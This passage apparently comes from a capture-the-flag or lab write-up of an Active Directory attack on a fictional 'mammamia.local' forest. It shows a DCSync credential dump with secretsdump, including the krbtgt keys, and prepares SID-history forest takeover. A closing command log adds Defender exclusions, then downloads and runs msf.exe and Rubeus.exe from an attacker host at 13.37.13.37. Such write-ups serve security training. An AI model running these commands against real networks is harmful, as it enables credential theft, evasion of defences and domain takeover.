 ```bash
[*] Saving ticket in amministratore@cifs_mgmtdc.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL.ccache
user@zero:~/MammaMia$ 
```

### Domain Takeover

With the `cifs/mgmtdc` ticket for `amministratore`, we can now perform a DCSync attack to dump the credentials of all the accounts in the `factories.mammamia.local` domain:

```bash
user@zero:~/MammaMia$ export KRB5CCNAME=amministratore@cifs_mgmtdc.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL.ccache
user@zero:~/MammaMia$ proxychains secretsdump.py 'factories.mammamia.local/amministratore@mgmtdc.factories.mammamia.local' -dc-ip 10.50.0.10 -target-ip 10.50.0.10 -just-dc -k -no-pass
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:49668  ...  OK
Amministratore:500:aad3b435b51404eeaad3b435b51404ee:c8d2e4305f55974fc4e243f582f7439f:::
[...]
[*] Kerberos keys grabbed
Amministratore:aes256-cts-hmac-sha1-96:f1f385b726c346765dc90a407039d0469b3b73a00b100ba693ea5d9addd74051
Amministratore:aes128-cts-hmac-sha1-96:e2911e51729170f3c1b2d2a868c9efb0
Amministratore:des-cbc-md5:92f7894a5880b50b
krbtgt:aes256-cts-hmac-sha1-96:09adb638c673d237eacdf1087a28b22c193553efbb119cf807c89e53cbb257ec
krbtgt:aes128-cts-hmac-sha1-96:9d459cacf43c77f0f009d433bc1397d8
[*] Cleaning up... 
```

### Forest Takeover

And finally, we can perform a SID History Injection attack to forge a TGT for the `Amministratore` user and inject the `Enterprise Admins` SID into the ticket. We will use the AES key of the `krbtgt` account. We're only lacking one information, which is the domain SID for the parent domain `MAMMAMIA.LOCAL`. We can get this information using the `nltest` command:

```powershell
C:\Windows\temp\attacker>nltest /domain_trusts /v
nltest /domain_trusts /v
List of domain trusts:
    0: MAMMAMIA mammamia.local (NT 5) (Forest Tree Root) (Direct Outbound) (Direct Inbound) ( Attr: withinforest )
       Dom Guid: 367f993a-4a3f-4738-80e2-62e24cebb8a0
       Dom Sid: S-1-5-21-3304687093-634114622-3569869145
    1: FACTORIES factories.mammamia.local (NT 5) (Forest: 0) (Primary Domain) (Native)
       Dom Guid: c2bb2c1a-29bf-4f0d-be03-bad167939978
       Dom Sid: S-1-5-21-3201321165-582068547-786307507
The command completed successfully
```


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      